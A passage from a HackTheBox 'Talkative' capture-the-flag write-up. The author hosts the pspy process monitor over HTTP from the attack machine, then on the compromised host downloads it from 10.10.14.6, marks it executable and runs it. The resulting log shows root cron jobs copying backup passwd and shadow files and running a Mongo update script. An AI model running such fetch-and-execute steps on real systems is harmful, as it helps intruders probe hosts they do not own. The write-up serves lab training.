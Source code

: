 Wait, `mongod`?? That being said, **the host machine or a Docker container is running MongoDB server**.

**Using [`pspy`](https://github.com/DominicBreuker/pspy) to monitor processes:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|16:55:36(HKT)]
└> file /opt/pspy/pspy64 
/opt/pspy/pspy64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, Go BuildID=eLPXwvfdDroLoCiGThdy/ADWkD7F3M81WNJfXu4Bf/E1SsFRH7R_QKLzCzaJmU/fDV0SVhtETqaDiVRM5z9, stripped
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|16:55:45(HKT)]
└> python3 -m http.server -d /opt/pspy 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
saul@talkative:~$ wget http://10.10.14.6/pspy64 -O /tmp/pspy; chmod +x /tmp/pspy; /tmp/pspy
[...]
2023/08/12 09:10:14 CMD: UID=0    PID=1322   | /usr/bin/docker-proxy -proto tcp -host-ip :: -host-port 8080 -container-ip 172.18.0.2 -container-port 41337 
2023/08/12 09:10:14 CMD: UID=0    PID=132    | 
2023/08/12 09:10:14 CMD: UID=0    PID=1317   | /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 8080 -container-ip 172.18.0.2 -container-port 41337 
2023/08/12 09:10:14 CMD: UID=0    PID=1304   | /usr/bin/docker-proxy -proto tcp -host-ip :: -host-port 8081 -container-ip 172.18.0.2 -container-port 41338 
2023/08/12 09:10:14 CMD: UID=0    PID=130    | 
2023/08/12 09:10:14 CMD: UID=0    PID=13     | 
2023/08/12 09:10:14 CMD: UID=0    PID=1299   | /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 8081 -container-ip 172.18.0.2 -container-port 41338 
2023/08/12 09:10:14 CMD: UID=0    PID=129    | 
2023/08/12 09:10:14 CMD: UID=0    PID=128    | 
2023/08/12 09:10:14 CMD: UID=0    PID=1278   | /usr/bin/docker-proxy -proto tcp -host-ip :: -host-port 8082 -container-ip 172.18.0.2 -container-port 41339 
2023/08/12 09:10:14 CMD: UID=0    PID=1272   | /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 8082 -container-ip 172.18.0.2 -container-port 41339
[...]
2023/08/12 08:57:01 CMD: UID=0    PID=90855  | /usr/sbin/cron -f 
2023/08/12 08:57:01 CMD: UID=0    PID=90854  | /usr/sbin/CRON -f 
2023/08/12 08:57:01 CMD: UID=0    PID=90853  | /usr/sbin/CRON -f 
2023/08/12 08:57:01 CMD: UID=0    PID=90857  | /bin/sh -c cp /root/.backup/passwd /etc/passwd 
2023/08/12 08:57:01 CMD: UID=0    PID=90856  | /bin/sh -c cp /root/.backup/shadow /etc/shadow 
2023/08/12 08:57:01 CMD: UID=0    PID=90859  | /bin/sh -c cp /root/.backup/shadow /etc/shadow 
2023/08/12 08:57:01 CMD: UID=0    PID=90858  | cp /root/.backup/passwd /etc/passwd 
2023/08/12 08:57:01 CMD: UID=0    PID=90860  | /usr/sbin/CRON -f 
2023/08/12 08:57:01 CMD: UID=0    PID=90861  | python3 /root/.backup/update_mongo.py 
[...]
2023/08/12 08:58:01 CMD: UID=0    PID=90868  | /usr/sbin/CRON -f 
2023/08/12 08:58:01 CMD: UID=0    PID=90871  | /bin/sh -c cp /root/.backup/passwd /etc/passwd 
[...]
2023/08/12 08:59:01 CMD: UID=0    PID=90875  | /usr/sbin/CRON -f 
2023/08/12 08:59:01 CMD: UID=0    PID=90878  | /bin/sh -c cp /root/.backup/shadow /etc/shadow 
[...]
2023/08/12 09:00:01 CMD: UID=0    PID=90885  | /usr/sbin/CRON -f 
2023/08/12 09:00:01 CMD: UID=0    PID=90889  | /bin/sh -c cp /root/.backup/passwd /etc/passwd 
2023/08/12 09:00:01 CMD: UID=0    PID=90888  | python3 /root/.backup/update_mongo.py 
2023/08/12 09:00:01 CMD: UID=0    PID=90887  | cp /root/.backup/shadow /etc/shadow 
2023/08/12 09:00:01 CMD: UID=0    PID=90890  | uname -p 
```
